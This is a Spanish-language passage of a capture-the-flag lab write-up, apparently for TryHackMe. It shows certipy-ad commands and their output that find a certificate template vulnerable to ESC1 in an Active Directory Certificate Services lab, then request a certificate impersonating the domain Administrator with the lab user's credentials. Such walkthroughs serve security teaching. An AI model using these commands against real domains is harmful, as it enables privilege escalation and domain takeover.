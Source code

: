 ### Comando y resultado
Búsqueda de plantillas de certificado vulnerables:
```
certipy-ad find -u 'SUSANNA_MCKNIGHT@thm.local' -p 'CHANGEME2023!' -target 10.10.120.231 -stdout -vulnerable
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 37 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 14 enabled certificate templates
[*] Finding issuance policies
[*] Found 21 issuance policies
[*] Found 0 OIDs linked to templates
[*] Retrieving CA configuration for 'thm-LABYRINTH-CA' via RRP
[*] Successfully retrieved CA configuration for 'thm-LABYRINTH-CA'
[*] Checking web enrollment for CA 'thm-LABYRINTH-CA' @ '10.10.120.231'
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : thm-LABYRINTH-CA
    DNS Name                            : labyrinth.thm.local
    ...
Certificate Templates
  0
    Template Name                       : ServerAuth
    Display Name                        : ServerAuth
    Certificate Authorities             : thm-LABYRINTH-CA
    Enabled                             : True
    Client Authentication               : True
    Enrollee Supplies Subject           : True
    ...
    [+] User Enrollable Principals      : THM.LOCAL\Authenticated Users
                                          THM.LOCAL\Domain Computers
    [!] Vulnerabilities
      ESC1                              : Enrollee supplies subject and template allows client authentication.
```
La plantilla ServerAuth es vulnerable a ESC1.

Solicitud de certificado para Administrator@thm.local usando la plantilla ServerAuth:
```
certipy-ad req -username 'SUSANNA_MCKNIGHT@thm.local' -password 'CHANGEME2023!' -ca thm-LABYRINTH-CA -target 10.10.120.231 -template ServerAuth -upn Administrator@thm.local
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Request ID is 24
[*] Successfully requested certificate
[*] Got certificate with UPN 'Administrator@thm.local'
[*] Certificate has no object SID
[*] Try using -sid to set the object SID or see the wiki for more details
[*] Saving certificate and private key to 'administrator.pfx'
File 'administrator.pfx' already exists. Overwrite? (y/n - saying no will save with a unique filename): y
[*] Wrote certificate and private key to 'administrator.pfx'
```
